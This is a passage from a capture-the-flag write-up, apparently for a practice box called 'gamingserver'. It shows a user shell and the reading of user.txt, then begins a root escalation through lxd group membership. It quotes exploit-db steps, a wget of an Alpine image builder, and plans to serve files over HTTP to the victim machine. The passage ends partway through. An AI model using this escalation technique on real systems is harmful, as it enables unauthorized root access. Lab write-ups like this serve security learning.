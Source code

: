 ```


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```

We're in! 

```
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt 
<redacted>
```

Awesome!

## Priv Escalation

Now let's try to get root. Whenever you do a box, there are two commands you should ALWAYS use in an attempt to escalate privileges. These are ``sudo -l`` and ``id``. The former doesn't show anything, however the latter does.

```
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

The interesting thing here is ``108(lxd)``. Using this group, we are able to escalate privileges. It is a common vector on HackTheBox, and I have seen it twice in the past.

A quick google search brings up this exploit script: https://www.exploit-db.com/exploits/46978

```
# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
# Step 3: Run this script and you will get root [Victim Machine]
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine
```

Let's do this. On my attacker machine, I will type ``wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine``. 

Next, I will enter ``sudo bash build-alpine``. It failed to build the first time I tried it so I redownloaded the file above, tried again, and it worked!

```
kali@kali:~/Desktop/thm/gamingserver/priv$ ls
alpine-v3.12-x86_64-20201007_2302.tar.gz  build-alpine  exploit
```

Next, we need to transfer these two files to the victim machine. In order to this, we will set an HTTP server on the attacking machine and use ``wget`` to download the files on the victim machine. First, let's quickly rename the alphine file so it's easier to type in when we use the shell that does not have autocomplete.
